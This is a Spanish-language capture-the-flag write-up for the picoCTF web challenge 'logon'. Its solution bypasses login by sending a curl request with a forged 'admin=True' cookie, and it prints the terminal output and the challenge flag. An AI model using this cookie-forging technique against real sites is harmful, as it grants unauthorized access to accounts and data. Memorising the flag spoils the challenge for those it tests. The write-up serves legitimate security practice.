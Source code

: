 # logon

## Descripcion Reto
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Pistas
1. Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución
![[Pasted image 20230309125209.png]]
![[Pasted image 20230309130057.png]]

```bash
ajhagaal-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   4369      0 --:--:-- --:--:-- --:--:--  4358
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
ajhagaal-picoctf@webshell:~$ 
```

```bash
ajhagaal-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
ajhagaal-picoctf@webshell:~$ 
```

## Bandera
* picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
| curl -s | Es un navegador offline, el -s crea el modo silencioso |

## Referencias
- []()